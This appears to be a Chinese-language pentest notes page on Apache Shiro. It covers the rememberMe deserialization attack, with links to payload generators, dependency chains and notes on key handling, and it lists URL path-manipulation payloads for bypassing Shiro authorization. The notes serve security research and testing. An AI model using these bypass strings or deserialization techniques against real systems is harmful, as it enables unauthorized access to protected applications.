 ## Shiro反序列化
- [Java版payload生成](https://github.com/shadowsock5/Poc/blob/master/Shiro/ShiroDeser.java)
- [Python版payload生成](https://github.com/shadowsock5/Poc/blob/master/Shiro/shiro_deser.py)

### 反序列化利用链
从Shiro-core官方的pom.xml文件中可以看出，在项目通过pom.xml引入shiro-core时，会自动引入commons-beanutils。当shiro-core的版本改变时，CB的版本也会随之改变。通过测试发现，shiro从1.2.4到1.3.2依赖的都是CB-1.8.3。而在shiro-1.3.2的下一个版本1.4.0中依赖的CB是1.9.3，从这个shiro版本开始，引入shiro依赖的项目会依赖CC3.2.2。
参考：
- https://github.com/apache/commons-beanutils/blob/BEANUTILS_1_9_1/pom.xml#L278
- https://github.com/apache/shiro/blob/shiro-root-1.4.0/pom.xml#L832
- https://github.com/apache/shiro/blob/shiro-root-1.3.2/pom.xml
- https://github.com/apache/shiro/blob/shiro-root-1.2.4/pom.xml#L617

### 说明
- 1.2.4的key硬编码在`org\apache\shiro\mgt\AbstractRememberMeManager.java`这个文件里；
- 1.2.4以上（1.2.5开始）的key在AbstractRememberMeManager构造方法里是这样写的：
```java
this.setCipherKey(cipherService.generateNewKey().getEncoded());
```
可以直接调这个接口，这样得到的key就是随机的。当然开发者也可以通过配置文件配置，比如`shiro.ini`, `xxx-shiro-xml`等制定一个自己实现的RememberMeManager（继承自`CookieRememberMeManager`），然后`applications.properties`里面配置这个硬编码的seed。如果攻击者知道了这个seed，可以方便地拿到shiro的key。
- 1.4.2以后，从`CBC`模式变成了`GCM`模式，需要相应地修改一下代码。

## Shiro权限绕过
比如想要访问的敏感url为：
```
/admin/index
```
假设`/static` 路径不需要认证即可访问。

绕过姿势：
- /admin/index/
- /;/admin/index
- /static;/admin/index
- /static;/../admin/index
- /static/..;/admin/index
- /admin/index%25%32%46index
- /admin/%3bindex


## 参考
- https://www.cnblogs.com/loong-hon/p/10619616.html
- https://www.codenong.com/cs106643678/
- [Shiro权限验证绕过史](https://s31k31.github.io/2020/08/20/Shiro_Authentication_Bypass/)
